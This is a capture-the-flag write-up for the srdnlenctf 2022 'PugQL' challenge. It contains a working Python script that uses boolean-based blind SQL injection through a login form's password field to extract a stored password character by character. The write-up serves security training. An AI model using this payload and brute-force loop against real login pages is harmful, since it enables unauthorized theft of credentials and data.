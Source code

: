 # srdnlenctf 2022

## PugQL (X solves)

This challenge provides a login page in which some security filters are applied in order to maintain the access secure. The filters are not quite good so it is possible to use sql injections to exfiltrate the flag which is in the Mario's password.

### Solution

To exfiltrate the flag, we can use the substring sql function in the password field, so if the condition is true, the site will render the successful login page, else it will render the page 'Hacking Attempt Detected'.

### Exploit

```python
#!/bin/env python3

import requests as r
import string

url = 'pugql.challs.srdnlenctf.it'

payload = "1' or substring(HEX((select password from users where username='Mario')),{},1)='{}" 

alf = string.ascii_letters + string.digits + '{' + '}' + '_'

flag = ''

for i in range(100): 
    for a in alf: #loop through characters
        data = {
            "username":'Mario',
            "password":payload.format(i+1,a)
        }
        r1 = r.post(url=url, data=data)
        if "Hello" in r1.text: #successful case
            flag += a
            print(flag, end='\r')
            break

print(flag)
```
